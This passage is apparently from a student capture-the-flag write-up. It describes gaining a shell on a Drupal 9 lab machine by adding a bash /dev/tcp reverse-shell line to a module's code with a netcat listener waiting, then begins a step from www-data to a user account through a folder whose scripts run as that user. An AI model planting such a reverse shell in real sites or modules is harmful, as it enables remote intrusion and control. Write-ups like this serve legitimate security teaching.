 With a quick Google search at "drupal 9 reverse shell" we found several websites explaining the way forward for carrying out this attack. Several Drupal versions are vulnerable to remote code execution due to insecure use of `unserialize()` [(source)](https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/). One of the sites we found [(link)](https://www.sevenlayers.com/index.php/257-drupal-8-to-reverse-shell) provided us with a well-explained step-by-step guide which we benefitted from. 

The guide describes how one can exploit the use of modules in Drupal by inserting code into a `.module` file. At Drupal's website, we downloaded a random module compatible with Drupal 9, in this case, called *token*. 

![image](https://user-images.githubusercontent.com/70077872/167573879-1302944a-d324-45a6-800e-147cb45be604.png)

After unzipping the module, we added the following code line, with our designated IP address and the desired port number, to the file called `codefilter.module` : 

    exec("/bin/bash -c 'bash -i >& /dev/tcp/ip_address/portnumber 0>&1'");
![image](https://user-images.githubusercontent.com/70077872/167573750-8dca4946-dd94-4f2d-8923-ecbda7b62a48.png)

 At the same time, we started a port listener in a terminal window by executing the command `nc -nvlp port_number`. 


After uploading the module, enabling it and installing it, we got a shell to www-data. 

![image](https://user-images.githubusercontent.com/70077872/167573128-1848a4ee-8881-4bbb-96e2-9aabb47cfe50.png)

We found the flag in `www-data.txt`.

![image](https://user-images.githubusercontent.com/70077872/167573357-162e2f3f-67d6-414f-bfb7-b871ac042453.png)

>**`Flag: IKT449{who_would_have_thought_adding_modules_is_bad}`**



## 4 - User

> www-data ? What, the attackers didn't stop there! What in the world
> has the  _user_  done to get himself pwned as well? Submit the content  of user.txt Would recommend to upgrade to a "good" shell to use nano or vim (guide in canvas)

After we have gained access to `www-data`, it is time to see if we can gain access the first user. Firstly, by going to `/home/user` reveals that there are is a folder called "coding_project". This folder contains a README file, a shell script and a Scripts folder. As the README file states, the user is tired of people asking him/her to run Python files, so the file states: "to avoid further work on my part you can run any file as me instead!". This is a potential vulnerability as files put in the folder `/scripts` is essentially run with the privileges of the user:

![image](https://user-images.githubusercontent.com/70077872/167387362-d4e82870-b257-4335-8acb-e25c97628496.png)


The `run_files.sh` is just a script that enter the script folder, runs the file(s) with python3, and removes it afterwards. Here, we can put in a file which is ran as the user to try to gain access to the user account:

![image](https://user-images.githubusercontent.com/70077872/167388008-555a28ea-6279-40cc-841b-08f8c5f108c5.png)
